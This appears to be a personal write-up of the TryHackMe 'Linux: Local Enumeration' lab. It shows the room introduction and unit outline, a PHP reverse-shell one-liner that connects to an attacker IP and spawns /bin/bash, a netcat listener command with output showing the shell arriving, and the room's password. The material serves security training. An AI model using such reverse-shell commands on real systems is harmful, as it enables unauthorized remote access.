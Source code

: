 # Linux: Local Enumeration

Learn to efficiently enumerate a linux machine and identify possible weaknesses

[Linux: Local Enumeration](https://tryhackme.com/room/lle)

## Chủ đề của

- Linux Local Enumeration

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Introduction

Have you ever found yourself in a situation where you have no idea about "what to do after getting a reverse shell (access to a machine)"?
If your answer was "Yes", this room is **definitely** for you. This rooms aims at providing beginner basis in box enumeration, giving a detailed approach towards it.

Here's a list of units that are going to be covered in this room:

- Unit 1 - Stabilizing the shell
  - Exploring a way to transform a reverse shell into a stable bash or ssh shell.
- Unit 2 - Basic enumaration
  - Enumerate OS and the most common files to identify possible security flaws.
- Unit 3 - /etc
  - Understand the purpose and sensitivity of files under /etc directory.
- Unit 4 - Important files
  - Learn to find files, containing potentially valuable information.
- Unit 6 - Enumeration scripts
  - Automate the process by running multiple community-created enumeration scripts.

Browse to the `MACHINE_UP:3000` and follow the instructions.

To continue with the room material, you need to get a reverse shell using a PHP payload and a netcat listener (nc -lvnp 1234).

How reverse shells work in a nutshell:

![](https://i.imgur.com/WlwnnqK.png)

`php -r '$sock=fsockopen("10.8.106.222",9001);exec("/bin/bash -i <&3 >&3 2>&3");'`

```
bibo318@parrot:~/CTFs/tryhackme/Linux Local Enumeration$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.85.18 41576
bash: cannot set terminal process group (559): Inappropriate ioctl for device
bash: no job control in this shell
manager@py:~/Desktop$
```
